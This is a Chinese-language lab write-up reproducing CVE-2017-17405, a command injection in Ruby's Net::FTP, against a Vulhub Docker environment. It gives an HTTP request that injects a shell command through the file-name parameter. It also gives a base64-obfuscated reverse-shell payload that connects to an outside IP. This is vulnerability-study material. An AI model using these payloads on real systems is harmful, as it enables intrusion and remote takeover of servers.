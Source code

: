 # Ruby Net::FTP 模块命令注入漏洞 CVE-2017-17405

## 漏洞描述

Ruby Net::FTP 模块是一个FTP客户端，在上传和下载文件的过程中，打开本地文件时使用了`open`函数。而在ruby中，`open`函数是借用系统命令来打开文件，且没用过滤shell字符，导致在用户控制文件名的情况下，将可以注入任意命令。

## 环境搭建

Vulhub编译及运行漏洞环境：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/`将可以看到一个HTTP服务。这个HTTP服务的作用是，我们访问`http://your-ip:8080/download?uri=ftp://example.com:2121/&file=vulhub.txt`，它会从example.com:2121这个ftp服务端下载文件vulhub.txt到本地，并将内容返回给用户。

## 漏洞复现

因为这是一个FTP客户端的漏洞，所以我们需要先运行一个可以被访问到的服务端。比如使用python：

```
# 安装pyftpdlib
pip install pyftpdlib

# 在当前目录下启动一个ftp服务器，默认监听在`0.0.0.0:2121`端口
python3 -m pyftpdlib -p 2121 -i 0.0.0.0
```

![image-20220228221133067](./images/202202282211126.png)

然后即可开始利用漏洞。注入命令`|touch${IFS}awesome_poc.txt`（空格用`${IFS}`代替，原因不表），发送如下数据包即可（其中uri指定的ftp服务器就是我用python运行的一个简单的ftp server，其中无需放置任何文件）：

```
GET /download?uri=ftp://your-vps:2121/&file=|touch${IFS}awesome_poc.txt HTTP/1.1
Host: your-ip:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
```

![image-20220228221337350](./images/202202282213424.png)

然后进入docker容器内，可见awesome_poc.txt已被创建：

![image-20220228221433232](./images/202202282214280.png)

执行反弹shell的命令，成功反弹：

```
|bash${IFS}-c${IFS}'{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo}|{base64,-d}|{bash,-i}'
```

![image-20220228221216580](./images/202202282212651.png)

> kali中反弹失败，vps反弹成功，可能是因为kali的默认shell为zsh
